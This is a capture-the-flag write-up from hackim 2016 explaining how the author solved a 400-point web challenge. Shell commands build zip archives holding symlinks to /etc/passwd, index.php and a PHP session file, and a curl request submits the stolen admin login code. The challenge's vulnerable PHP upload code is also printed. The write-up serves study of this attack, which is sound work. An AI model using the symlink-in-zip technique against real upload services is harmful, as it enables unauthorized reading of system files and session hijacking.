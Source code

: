 ```yaml
---
layout: post
title:  "hackim 2016: smasththestate (web 400)"
author: f0rki
categories: writeup
---
```


* **Category:** web
* **Points:** 400
* **Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site.
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag.
> Automated tools and bruteforcing will not help you solve this challenge.

## Write-up

We can login with the given credentials and upload a zip file. This zip file is
then unpacked and all the contents are `cat`ed.

When some archive (zip, tar or whatever) is unpacked the two things I try first
is: relative paths in the filename and symlinks. This time you could upload
symlinks. For this we must use the `-y` flag on the zip tool.

    $ ln -s /etc/passwd
    $ zip -y pwn.zip passwd

Upload and enjoy the passwd file. OK so we can read any file with the
webservers permission. Good start. Next we can use the vulnerability to get the
source of the site.

    $ ln -s ../../index.php
    $ zip -y pwn.zip index.php

And it happily dumps us the source code :) This is the vulnerable piece of code
that handles the zip upload:

    $tmp_file = '/var/www/html/tmp/upload_'.session_id();

    # ZipArchive may not be available
    # $zip = new ZipArchive;
    # $zip->open($_FILES['zipfile']['name']);
    # $zip->extractTo($tmp_file);
    exec('unzip -o '.$_FILES['zipfile']['tmp_name']. ' -d '.$tmp_file);
    echo "Zip contents: <br/>";
    passthru("cat $tmp_file/* 2>&1");
    exec("rm -rf $tmp_file");


Now how to get to the flag? It's easy to spot the interesting piece of code:

    $code = $_POST['code'];
    if (isset($code) && isset($_SESSION['login_code'])) {
        if ($code === $_SESSION['login_code'] ){
            echo "Flag: ";
            passthru("sudo /bin/cat /var/www/html/flag");
        }
        else {
            echo "Invalid code";
        }
    }

Apparently we are supposed to find the admin login code that is set in the
session. It is set in the following piece of code which we can trigger by
visiting `?page=admin_login_help`. It uses `openssl_random_pseudo_bytes` which
I assume is safe in terms of randomness.

    session_start();
    if(!isset($_SESSION['login_code']) ){
        $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
        echo "A login code has been emailed to the administrator. Once you have recieved it, please click <a href='?page=code_submit'>here</a>\n";
    }
    else {
        echo "There is already an active login code for this session";
    }

Let's find out how php is configured to store it's sessions. We can fetch the
active php.ini from `/etc/php5/apache2/php.ini`, again using the symlink in zip
vulnerability. From there we can see that it's stored in files under
`/var/lib/php5/`. So in my case I read the file
`/var/lib/php5/sess_a7l9q5dihoumkg02cjkagh8gj1` again using the zip symlink
vulnerability to get the login_code. Then it was simply a matter of submitting
the login code.

    $ curl 'http://54.152.101.3/?page=code_submit' \
        -H 'Cookie: PHPSESSID=a7l9q5dihoumkg02cjkagh8gj1'
        --data 'code=742aa277b035c96ef64cba0364c75e214596'

Also note that this will always work as soon as you have it, since sessions are
never destroyed and also the login code is never regenerated. At least they
force a new session upon login.

At first this returned nothing, so it seemed the flag file was empty or they
didn't configure sudo. Anyway after complaining on IRC and waiting a little,
the flag reading worked and it turned out to be:

    8e11a50ef762f924d7af9995889873e4

What a boring flag :(
